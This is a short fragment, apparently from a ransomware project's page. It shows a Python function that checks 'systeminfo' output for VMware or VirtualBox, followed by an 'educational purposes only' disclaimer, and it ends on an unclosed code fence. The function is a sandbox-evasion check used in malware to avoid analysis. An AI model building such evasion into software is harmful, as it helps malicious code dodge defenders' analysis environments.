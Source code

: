 ```python
def is_virtual_environment():
    vmware_check = "VMware" in subprocess.getoutput("systeminfo")
    virtualbox_check = "VirtualBox" in subprocess.getoutput("systeminfo")
    return vmware_check or virtualbox_check
```

---

## Security and Legal Disclaimer

This ransomware script is strictly for educational purposes and should only be used in a secure, isolated lab environment. Unauthorized deployment or use of ransomware is illegal and unethical.

```

